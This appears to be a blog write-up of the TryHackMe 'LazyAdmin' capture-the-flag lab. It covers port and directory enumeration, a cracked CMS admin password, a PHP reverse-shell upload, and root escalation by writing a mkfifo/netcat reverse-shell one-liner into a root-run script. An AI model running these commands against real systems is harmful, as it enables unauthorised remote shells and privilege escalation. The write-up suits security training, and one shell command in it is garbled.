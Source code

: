 ```yaml
---
title: TryHackMe - LazyAdmin
author: Bonface
date: 2024-10-31 00:00:00 +0000
categories: [TryHackMe]
tags: [tryhackme, linux, nmap, privesc, ssh, http, gobuster ]
image:
    path: /assets/img/try%20hack%20me%20/Easy/LazyAdmin/0.jpeg
    alt: LazyAdmin
---
```


# LazyAdmin

Easy Linux machine to practice your skills.  

# Tasks

capture the user and root flag.  

# nmap

## ip `10.10.24.121`

## Command 
```sh
nmap -sV -sC -v 10.10.24.121
```
## Results
```sh
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
| 256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_ 256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# http_80

## ip `10.10.24.121`


To Do List
----------------------------------------------
- View the site
- source code
- Robots.txt
- gobuster



##  site

![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/1.png)


# gobuster

```sh
	gobuster dir -u http://10.10.24.121 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

## Results

```sh
/content
```


## /content
![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/2.png)

Nothing much so i run another gobuster on the directory hoping to find sub-directories  



## gobuster /content

## Command 
```sh
 gobuster dir -u http://10.10.10.216/content -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

```
![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/3.png)

```sh
/inc
```
![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/4.png)

![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/5.png)


![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/6.png)

admin = manager  
password = 42f749ade7f9e195bf475f37a44cafcb\\  
Decoding the password = Password123  

![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/7.png)

log in using the details.  
![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/8.png)

Let's look around searching for an exploit vector.  
![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/9.png)

Get a reverse shell script *php change the ip then copy paste it.  
Now go to 10.10.10.216/content/inc/ads/shell.php but first run nc on your machine
```sh
nc -nlvp 1234
```

*Machine just expired let me start it again Damn all that progress!!! 

## ip `10.10.66.184`

## Commands
will have to start all over again :
1. 10.10.66.184/content/as
2. user = manager
3. password = Password123
4. Upload the reverse shell on ads management room
5. nc -nvlp 1234
6. `http://10.10.66.184/content/inc/ads/shell.php`

**now we have a shell !!!**

![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/10.png)  

user flag = THM{...}  
![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/11.png)



# priv esc

First lets stablelize the shell.  
```sh
python3 -c'importpty;pty.spawn("/bin/bash")'
export TERM=xterm
```

![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/12.png)  
Let's first look at the backup.pl   
![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/13.png)  

Runs the command with root previlage and we can read and execute it.  
The script runs another script  
![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/14.png)


```sh
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.172.59 5554 >/tmp/f' >/etc/copy.sh
```
Run nc 
```sh
nc -nvlp 5554
```

On the machine run 
```sh
sudo /usr/bin/perl /home/itguy/backup.pl
```
Root flag = THM{...}  
![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/15.png)

